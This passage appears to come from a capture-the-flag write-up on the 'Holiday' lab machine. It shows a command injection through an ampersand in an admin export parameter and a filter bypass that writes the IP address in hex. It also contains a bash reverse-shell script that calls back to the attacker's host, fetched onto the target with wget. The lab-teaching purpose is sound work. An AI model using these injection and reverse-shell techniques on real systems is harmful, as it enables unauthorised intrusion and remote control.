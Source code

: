 I wanted to get a full list of the tables, so I checked the `sqlite_master` table, but an error came back:

```

Invalid table name - only characters in the range of [a-z0-9&\s\/] are allowed

```

That’s interesting. Why would a table name need a space, forward slash, or ampersand. The ampersand inspired me to try command injection by visiting `/admin/export?table=users%26id`:

```

uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)
1|RickA|fdc8cd4cff2c19e0d1022e78481ddf36|1

```

#### Shell / Filter Bypass

Now that I have code execution, I’ll need a shell. All the reverse shells I typically use have tons of banned characters in them. The first thing I need to figure out is how to get my ip. Luckily, there’s a trick on Linux that IPs can be written in hex. On my local box, I’ll demonstrate. 127 = 0x7f, 0 = 0x00, and 1 = 0x01. So I can ping 0x7f000001:

```

root@kali# ping -c 1 0x7f000001
PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms
--- 0x7f000001 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.028/0.028/0.028/0.000 ms

```

Once you have that trick, the rest is rather straight forward. I’ll create a file, `rev` with a reverse shell in it:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.30/443 0>&1

```

Now I’ll use `wget` to get it onto Holiday. Nothing comes back in the response:

![1567849534705](https://0xdfimages.gitlab.io/img/1567849534705.png)

But I do get a hit on my webserver:

```
10.10.10.25 - - [07/Sep/2019 05:39:33] "GET /rev HTTP/1.1" 200 -

```
